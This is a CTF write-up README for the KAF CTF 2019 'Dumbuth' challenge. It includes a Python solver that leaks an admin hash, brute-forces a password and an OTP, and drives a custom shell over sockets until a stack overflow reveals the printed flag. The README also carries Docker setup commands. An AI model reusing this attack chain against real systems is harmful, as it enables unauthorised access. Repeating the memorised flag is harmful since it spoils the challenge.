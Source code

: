 # Dumbuth

Dumbuth is an information security challenge in the Miscellaneous category, and was presented to participants of [KAF CTF 2019](https://ctf.kipodafterfree.com)

## Challenge story

Mainframe management can be really hard at times :(

## Challenge exploit

A stackoverflow exception is catched when the user runs the find command, and the flag is displayed.

## Challenge solution

```py
import os.path
import hashlib
import requests
import socket
import json
import time
import re

CHARS = "abcdefghijklmnopqrstuvwxyz"
HOST = "localhost"
PORT_A = 8000
PORT_B = 5387

def recursive(hash, salt, target, current = ""):
	if len(current) < target:
		for c in CHARS:
			result = recursive(hash, salt, target, current+c)
			if result != None:
				return result
	else:
		if hash == duth_hash(current, salt):
			return current
		return None
	return None

def duth_hash(secret, salt, rounds = 10):
	# secret=secret.encode('utf-8')
	# salt=salt.encode('utf-8')
	if rounds == 0:
		return hashlib.sha1((secret+salt).encode('utf-8')).hexdigest()
	return hashlib.sha1((salt+duth_hash(secret, salt, rounds-1)).encode('utf-8')).hexdigest()

def ps(string):
	print("\33[1;31mOut\33[0m->"+string)
	return bytes(string+"\n", encoding='utf8')

def pr(sock):
	string = re.sub(r"(\n.+duth.+:.+>)+","",sock.recv(2048).decode('utf-8'))
	string=string[:-1]
	print("\33[1;33mIn\33[0m<-"+string.replace("\n","\n\33[1;33mIn\33[0m<-"))
	return string;

def slp():
	time.sleep(0.1)

def solve():
	if os.path.exists("password.txt"):
		password = open("password.txt", "r").read().replace("\n","")
	else:
		gethash = requests.post("http://"+HOST+":"+PORT_A+"/files/dumbuth/dumbuth.php", data={'mainframe':json.dumps({'action':'checkname','parameters':{'name':'admin'}})})
		resultA = json.loads(gethash.text)
		listA = resultA['mainframe']['result']['checkname']
		password = recursive(listA[1], listA[2], 6)
		file = open("password.txt", "w+")
		file.write(password)
		file.close()
	print("Main credentials: admin("+password+")")
	# Init shellA and shellB
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as A:
		A.connect((HOST, PORT_B))
		slp()
		A.recv(1024);
		A.sendall(ps("auth admin "+password))
		slp()
		if "OK" in pr(A):
			A.sendall(ps("elevate"))
			for i in range(8):
				slp()
			pr(A)
			A.sendall(ps("cmfs"))
			slp()
			pr(A)
			A.sendall(ps("ln /files /files/files"))
			slp()
			pr(A)
			A.sendall(ps("id"))
			slp()
			qsid = pr(A)
			A.sendall(ps("sotp"))
			slp()
			sotp = pr(A).split(" - ")
			otp = recursive(sotp[1], sotp[2], 5)
			print("OTP: "+otp)
			with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as B:
				B.connect((HOST, PORT_B))
				pr(B)
				B.sendall(ps("auth admin "+password))
				slp()
				pr(B)
				B.sendall(ps("nc "+qsid+" "+otp+" find"))
				slp()
				data = pr(A)
				while not "╝" in data:
					data += pr(A)
		else:
			print("Initial Auth Failure")

solve();
```

## Building and installing

[Clone](https://github.com/NadavTasher/2019-Dumbuth/archive/master.zip) the repository, then type the following command to build the container:
```bash
docker build . -t dumbuth
```

To run the challenge, execute the following command:
```bash
docker run --rm -d -p 1110:80 -p 1111:8000 Dumbuth
```

## Usage

You may now access the challenge interface through your browser: `http://localhost:1110` and through `nc localhost 1111`

## Flag

Flag is:
```flagscript
KAF{d1dnt_expect_1t_t0_b3_4n_0verfl0w_3xc3ption}
```

## License
[MIT License](https://choosealicense.com/licenses/mit/)